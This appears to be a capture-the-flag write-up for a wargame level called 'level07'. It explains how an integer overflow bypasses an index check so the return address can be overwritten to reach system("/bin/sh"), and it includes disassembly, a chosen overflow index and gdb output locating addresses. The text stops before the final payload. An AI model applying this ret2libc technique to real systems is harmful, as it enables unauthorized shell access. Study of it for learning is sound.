 ## **Vulnerability**

The vulnerability in this level is caused by integer overflow when bypassing the index check for being a multiple of 3. This allows the attacker to overwrite the return address on the stack, redirecting execution to the system("/bin/sh") function, which gives the attacker a shell. The overflow lets the attacker store arbitrary values, leading to arbitrary code execution.

```nasm
; Key Protection Checks in store_number:
0x0804866e <+62>:    mov    -0xc(%ebp),%ecx     ; Get index
0x08048671 <+65>:    mov    $0xaaaaaaab,%edx    ; Magic number for div by 3
0x08048678 <+72>:    mul    %edx                ; Check if index % 3 == 0

0x0804868d <+93>:    shr    $0x18,%eax          ; Get highest byte
0x08048690 <+96>:    cmp    $0xb7,%eax          ; Compare with 0xb7

; Address calculation in read_number:
0x080486f9 <+34>:    mov    -0xc(%ebp),%eax     ; Get index
0x080486fc <+37>:    shl    $0x2,%eax           ; index * 4
0x080486ff <+40>:    add    0x8(%ebp),%eax      ; Add base
```

## **Exploit**

The goal is 
. Bypass index check using integer overflow by choosing an invalid index (e.g., 1073741938).

. Overwrite return address with the address of system("/bin/sh").

. Execute exploit by storing the addresses and triggering the overflow to spawn a shell.

**Step 1: Find Important Addresses**

We need to find the addresses of `system` and `/bin/sh`.

```nasm
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb)
```

**Step 2: Reach the Return Address**

We calculate the offset to the return address:
